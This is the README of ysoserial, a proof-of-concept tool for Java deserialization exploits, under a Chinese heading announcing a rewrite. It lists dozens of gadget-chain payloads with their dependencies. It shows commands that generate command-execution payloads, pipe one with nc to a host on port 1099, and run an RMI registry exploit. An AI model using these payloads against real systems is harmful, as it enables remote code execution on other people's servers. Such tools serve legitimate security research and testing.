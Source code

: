 # 终于要对改写 ysoserial 下手了



# ysoserial

[![GitHub release](https://img.shields.io/github/downloads/frohoff/ysoserial/latest/total)](https://github.com/frohoff/ysoserial/releases/latest/download/ysoserial-all.jar)
[![Travis Build Status](https://api.travis-ci.com/frohoff/ysoserial.svg?branch=master)](https://travis-ci.com/frohoff/ysoserial)
[![Appveyor Build status](https://ci.appveyor.com/api/projects/status/a8tbk9blgr3yut4g/branch/master?svg=true)](https://ci.appveyor.com/project/frohoff/ysoserial/branch/master)

A proof-of-concept tool for generating payloads that exploit unsafe Java object deserialization.

![logo](ysoserial.png)

## Description

Originally released as part of AppSecCali 2015 Talk
["Marshalling Pickles: how deserializing objects will ruin your day"](
        https://frohoff.github.io/appseccali-marshalling-pickles/)
with gadget chains for Apache Commons Collections (3.x and 4.x), Spring Beans/Core (4.x), and Groovy (2.3.x).
Later updated to include additional gadget chains for
[JRE <= 1.7u21](https://gist.github.com/frohoff/24af7913611f8406eaf3) and several other libraries.

__ysoserial__ is a collection of utilities and property-oriented programming "gadget chains" discovered in common java
libraries that can, under the right conditions, exploit Java applications performing __unsafe deserialization__ of
objects. The main driver program takes a user-specified command and wraps it in the user-specified gadget chain, then
serializes these objects to stdout. When an application with the required gadgets on the classpath unsafely deserializes
this data, the chain will automatically be invoked and cause the command to be executed on the application host.

It should be noted that the vulnerability lies in the application performing unsafe deserialization and NOT in having
gadgets on the classpath.

## Disclaimer

This software has been created purely for the purposes of academic research and
for the development of effective defensive techniques, and is not intended to be
used to attack systems except where explicitly authorized. Project maintainers
are not responsible or liable for misuse of the software. Use responsibly.

## Usage

```shell
$  java -jar ysoserial.jar
Y SO SERIAL?
Usage: java -jar ysoserial.jar [payload] '[command]'
  Available payload types:
     Payload             Authors                     Dependencies
     -------             -------                     ------------
     AspectJWeaver       @Jang                       aspectjweaver:1.9.2, commons-collections:3.2.2
     BeanShell1          @pwntester, @cschneider4711 bsh:2.0b5
     C3P0                @mbechler                   c3p0:0.9.5.2, mchange-commons-java:0.2.11
     Click1              @artsploit                  click-nodeps:2.3.0, javax.servlet-api:3.1.0
     Clojure             @JackOfMostTrades           clojure:1.8.0
     CommonsBeanutils1   @frohoff                    commons-beanutils:1.9.2, commons-collections:3.1, commons-logging:1.2
     CommonsCollections1 @frohoff                    commons-collections:3.1
     CommonsCollections2 @frohoff                    commons-collections4:4.0
     CommonsCollections3 @frohoff                    commons-collections:3.1
     CommonsCollections4 @frohoff                    commons-collections4:4.0
     CommonsCollections5 @matthias_kaiser, @jasinner commons-collections:3.1
     CommonsCollections6 @matthias_kaiser            commons-collections:3.1
     CommonsCollections7 @scristalli, @hanyrax, @EdoardoVignati commons-collections:3.1
     FileUpload1         @mbechler                   commons-fileupload:1.3.1, commons-io:2.4
     Groovy1             @frohoff                    groovy:2.3.9
     Hibernate1          @mbechler
     Hibernate2          @mbechler
     JBossInterceptors1  @matthias_kaiser            javassist:3.12.1.GA, jboss-interceptor-core:2.0.0.Final, cdi-api:1.0-SP1, javax.interceptor-api:3.1, jboss-interceptor-spi:2.0.0.Final, slf4j-api:1.7.21
     JRMPClient          @mbechler
     JRMPListener        @mbechler
     JSON1               @mbechler                   json-lib:jar:jdk15:2.4, spring-aop:4.1.4.RELEASE, aopalliance:1.0, commons-logging:1.2, commons-lang:2.6, ezmorph:1.0.6, commons-beanutils:1.9.2, spring-core:4.1.4.RELEASE, commons-collections:3.1
     JavassistWeld1      @matthias_kaiser            javassist:3.12.1.GA, weld-core:1.1.33.Final, cdi-api:1.0-SP1, javax.interceptor-api:3.1, jboss-interceptor-spi:2.0.0.Final, slf4j-api:1.7.21
     Jdk7u21             @frohoff
     Jython1             @pwntester, @cschneider4711 jython-standalone:2.5.2
     MozillaRhino1       @matthias_kaiser            js:1.7R2
     MozillaRhino2       @_tint0                     js:1.7R2
     Myfaces1            @mbechler
     Myfaces2            @mbechler
     ROME                @mbechler                   rome:1.0
     Spring1             @frohoff                    spring-core:4.1.4.RELEASE, spring-beans:4.1.4.RELEASE
     Spring2             @mbechler                   spring-core:4.1.4.RELEASE, spring-aop:4.1.4.RELEASE, aopalliance:1.0, commons-logging:1.2
     URLDNS              @gebl
     Vaadin1             @kai_ullrich                vaadin-server:7.7.14, vaadin-shared:7.7.14
     Wicket1             @jacob-baines               wicket-util:6.23.0, slf4j-api:1.6.4
```

## Examples

```shell
$ java -jar ysoserial.jar CommonsCollections1 calc.exe | xxd
0000000: aced 0005 7372 0032 7375 6e2e 7265 666c  ....sr.2sun.refl
0000010: 6563 742e 616e 6e6f 7461 7469 6f6e 2e41  ect.annotation.A
0000020: 6e6e 6f74 6174 696f 6e49 6e76 6f63 6174  nnotationInvocat
...
0000550: 7672 0012 6a61 7661 2e6c 616e 672e 4f76  vr..java.lang.Ov
0000560: 6572 7269 6465 0000 0000 0000 0000 0000  erride..........
0000570: 0078 7071 007e 003a                      .xpq.~.:

$ java -jar ysoserial.jar Groovy1 calc.exe > groovypayload.bin
$ nc 10.10.10.10 1099 < groovypayload.bin

$ java -cp ysoserial.jar ysoserial.exploit.RMIRegistryExploit myhost 1099 CommonsCollections1 calc.exe
```

## Installation

[![GitHub release](https://img.shields.io/github/downloads/frohoff/ysoserial/latest/total)](https://github.com/frohoff/ysoserial/releases/latest/download/ysoserial-all.jar)

Download the [latest release jar](https://github.com/frohoff/ysoserial/releases/latest/download/ysoserial-all.jar) from GitHub releases.

## Building

Requires Java 1.7+ and Maven 3.x+

```mvn clean package -DskipTests```

## Code Status

[![Build Status](https://travis-ci.org/frohoff/ysoserial.svg?branch=master)](https://travis-ci.org/frohoff/ysoserial)
[![Build status](https://ci.appveyor.com/api/projects/status/a8tbk9blgr3yut4g/branch/master?svg=true)](https://ci.appveyor.com/project/frohoff/ysoserial/branch/master)

## Contributing

1. Fork it
2. Create your feature branch (`git checkout -b my-new-feature`)
3. Commit your changes (`git commit -am 'Add some feature'`)
4. Push to the branch (`git push origin my-new-feature`)
5. Create new Pull Request

## See Also
* [Java-Deserialization-Cheat-Sheet](https://github.com/GrrrDog/Java-Deserialization-Cheat-Sheet): info on vulnerabilities, tools, blogs/write-ups, etc.
* [marshalsec](https://github.com/frohoff/marshalsec): similar project for various Java deserialization formats/libraries
* [ysoserial.net](https://github.com/pwntester/ysoserial.net): similar project for .NET deserialization
